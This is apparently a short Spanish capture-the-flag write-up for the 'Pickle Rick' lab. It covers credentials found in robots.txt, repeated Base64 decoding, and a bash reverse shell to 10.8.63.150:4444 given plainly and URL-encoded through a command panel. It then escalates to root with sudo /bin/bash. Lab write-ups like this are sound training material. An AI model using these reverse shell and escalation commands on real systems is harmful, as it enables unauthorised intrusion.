





# Pickle Rick





R1ckRul3s



robots.txt -> Wubbalubbadubdub

Probamos a entrar con R1ckRul3s:Wubbalubbadubdub en login.php
✔




```text
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```


Decodificando 7 veces con Base64 obtenemos



Ejecutaremos comandos en el Command Panel pero no nos lanza la revshell, seguramente será porque tiene que ir urlencodeada
`/bin/bash -c 'bash -i >& /dev/tcp/10.8.63.150/4444 0>&1'`
%2Fbin%2Fbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E8%2E63%2E150%2F4444%200%3E%261%27

(ALL) NOPASSWD: ALL
`sudo /bin/bash`
**root**
